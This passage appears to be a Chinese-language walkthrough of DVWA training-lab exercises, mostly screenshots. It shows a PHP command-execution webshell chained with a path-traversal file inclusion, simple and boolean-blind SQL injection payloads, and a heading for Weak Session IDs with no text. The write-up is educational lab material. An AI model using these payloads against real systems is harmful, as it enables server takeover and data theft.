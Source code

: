 ![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757563028121-c02aba71-0829-41a7-a308-f659c8f92bad.png)

<font style="color:rgb(77, 77, 77);">打开webshell管理工具进行连接：</font>

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757563130272-747b07da-c355-4709-ab86-737b2c87431f.png)

连接成功，进入服务器：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757563226448-2765ec33-1815-4b2d-a7fa-ed261fe69e44.png)

> 文件上传漏洞可以和文件包含漏洞进行组合拳：
>
> + 先上传一个简单的webshell：`<?php system($_GET['cmd']); ?>`，返回上传路径是`../../hackable/upload/shell.php`
> + 然后通过文件包含漏洞访问这个文件：`?page=../../hackable/upload/shell.php`
> + 成功执行`shell.php`之后就可以通过`cmd`参数执行命令，比如：`/hackable/upload/shell.php?cmd=whoami`
>

<h1 id="CGeZB">SQL Injection</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757571104774-b30b6ce7-2fde-4fc4-9c87-64fd10055de0.png)

输入`1`试试：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757571134460-31fe832f-1250-42e6-95d7-981d02be527c.png)

输入`1'`：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757571177682-6ad3c879-c821-4942-a1ae-c572a3bc77d6.png)

存在SQL注入漏洞。输入`1' or '1'='1`：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757571334649-c0a63592-3327-4d9f-acdd-db1d2b05fc9f.png)

可以随便注：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757571586843-b5c49a72-c3ea-44f9-a46b-8677f51b82d0.png)

<h1 id="Aimwl">SQL Injection (Blind)</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757571638942-50b8927c-e640-4a35-805e-c2b9057c6dc8.png)

题目提示是盲注。输入`1`：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757571769799-689ba907-d4fe-4237-b291-8ee0ab743d73.png)

输入`1'`：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757571785439-e0c23865-43ca-4c92-8001-929954b0b401.png)

发现只有两种显示，通过布尔注入获取数据库信息，输入`1' and SUBSTR(database(),1,4)='dvwa'#`：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757572556719-d196ea2e-4b55-497a-9e2b-a1192567133c.png)

所以数据库库名是`dvwa`。

<h1 id="C2obp">Weak Session IDs</h1>
![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757572716844-17b479fa-f0d5-4995-9851-1659e672fa07.png)
